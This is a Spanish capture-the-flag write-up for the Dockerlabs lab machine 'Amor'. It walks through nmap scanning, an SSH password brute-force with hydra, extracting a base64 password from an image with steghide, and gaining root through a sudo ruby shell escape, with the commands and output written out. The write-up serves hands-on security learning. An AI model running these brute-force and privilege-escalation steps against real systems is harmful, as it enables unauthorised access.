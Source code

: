 # Máquina Amor

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

Creador -> [romabri](https://github.com/romabri/WriteUps/commits?author=romabri)

---

## Reconocimiento



Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.
```shell
❯ ping -c 1 172.17.0.2 -R
PING 172.17.0.2 (172.17.0.2) 56(124) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.074 ms
RR: 	172.17.0.1
	172.17.0.2
	172.17.0.2
	172.17.0.1


--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.074/0.074/0.074/0.000 ms
```

Ya con esto podemos observar que el ttl=64 corresponde a una maquina Linux 

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.
```shell
❯ nmap -sCV -p- --open --min-rate 5000 -n 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-24 19:09 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
|_  256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: SecurSEC S.L
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
También pueden utilizar el -vvv para ver en tiempo real la información durante el escaneo ,
Podemos observar que tiene el puerto 22 abierto es decir podemos acceder con credenciales SSH además del puerto 80, por lo tanto eso nos hace sospechar que debe tener una pagina levantada. 

Accedemos a la web para inspeccionarla, donde encontramos información importante como un par de usuarios, **carlota** y **juan**. Y que hay usuarios en el sistema con contraseñas débiles.

---

## Explotación


Aplicamos fuerza bruta con **hydra** sobre los usuarios:
```shell
❯ hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-24 11:52:37
```

Encontramos las credenciales de carlota -> **carlota:babygirl** Accedemos por ssh:

Estamos dentro !

---

## Escalada de privilegios


En el directorio **/home/Desktop/fotos/vacaciones** de Carlota encontramos una imagen.

Nos la descargaremos para verla. Podemos usar **scp**:
```shell
❯ scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg .
```

Veremos si tiene algo oculto con la herramienta **steghide**:
```shell
steghide --extract -sf imagen.jpg
Anotar salvoconducto: 
anot� los datos extra�dos e/"secret.txt".
```
Obtenemos un **secret.txt** con la siguiente información -> **ZXNsYWNhc2FkZXBpbnlwb24=**

utilizamos  **base64** así que lo decodificamos:
```shell
base64 -d secret.txt
eslacasadepinypon#  
```

Usaremos esta información como contraseña para intentar migrar a otro usuario o convertirnos en **root**:

```shell
su oscar
```

Conseguimos migrar al usuario **oscar**. Ejecutamos **sudo -l** para ver si podemos ejecutar algo como otro usuario o como **root**:

```shell
sudo -l
------------------------------------------------
User oscar may run the following commands on 6ba86e9dc48a:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Podemos ejecutar **ruby** como el usuario **root**, si no sabemos como abusar de esto, siempre podemos recurrir a [GTFOBins](https://github.com/albertomarcostic/DockerLabs-WriteUps/blob/main)

```shell
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

```shell
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo en la máquina.

```shell
cat /root/Desktop/THX.txt
-------------------------------
Gracias a toda la comunidad de Dockerlabs y a Mario por toda la ayuda proporcionada para poder hacer la máquina.
```